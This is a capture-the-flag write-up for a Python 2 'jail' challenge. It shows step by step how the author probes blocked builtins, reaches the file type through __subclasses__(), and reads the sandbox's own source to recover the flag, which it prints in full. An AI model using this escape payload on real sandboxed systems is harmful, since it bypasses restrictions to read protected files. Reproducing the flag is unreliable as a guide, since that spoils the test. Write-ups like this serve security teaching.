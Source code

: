 # Prison Break

Author: [roerohan](https://github.com/roerohan)

## Description

This is a python jail challenge.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Basic Python.

## Sources

```
I saw them put someone in jail. Can you find out who it is?
They said this is the best prison ever built. You sure can't break it, can you?
```

## Exploit

This is a classic jail challenge where some `builtins` have been blocked, such as `import`, `exec`, `file`, `quit`, `execfile`, etc. Your job is to find the flag hidden on the server. When you connect to the program you see:

```python
$ python2 jail.py
Find the flag.
>>> print 1+1
2
```

When you try `print 1+1`, you see that it works even without the `()`, indicating that this is `python2`. You can try to print some things to check what functions are allowed.

```python
>>> __import__('system')
You have encountered an error.
>>> __import__
You have encountered an error.
>>> exec
You have encountered an error.
>>> execfile
You have encountered an error.
>>> print dir()      
['code_string', 'self']
```

So, we see that `dir` is allowed, we can use that to check out the allowed builtins.

```python
>>> print dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'Exception', 'False', 'None', 'True', 'abs', 'basestring', 'bin', 'bytearray', 'bytes', 'complex', 'dict', 'dir', 'help']
```

We see that `dict` is allowed. So, we can use the `__class__` to find the class, then we can use `__base__` to find the baseclass. Now there's a `__subclasses__` function that shows all the classes of that base class, which basically shows all the classes you'd need. 

```python
>>> print dict.__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class '__main__.Sandbox'>]
```

Notice the `<type 'file'>` in the array. We can use this to access the `read` function on `type` file. We can loop through this list (or count) to find that the index of `<type 'file>` is 40.

```python
>>> print dict.__class__.__base__.__subclasses__()[40]
<type 'file'>
```

Now, we can call `.read()` on this! Let's try to read `flag.txt`.

```python
>>> print ().__class__.__bases__[0].__subclasses__()[40]('/ctf/flag.txt', 'r').read()
The flag is in the source code.
```

Great, so we know where the flag is, but we don't know the file name. However, we can use `__file__`.

```
__file__ is a variable that contains the path to the module that is currently being imported. Python creates a __file__ variable for itself when it is about to import a module. The updating and maintaining of this variable is the responsibility of the import system.
```

So, the final payload will be:

```python
>>> print ().__class__.__bases__[0].__subclasses__()[40](__file__, 'r').read()
#!/usr/bin/python2

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")

def flag_function():
    flag = "csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}"

while 1:
    try:
        code = _raw_input(">>> ")
        sandbox.execute(code)

    except Exception:
        print("You have encountered an error.")
```

You get the source code, and you see the flag in it.
<br />

The flag is:

```
csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}
```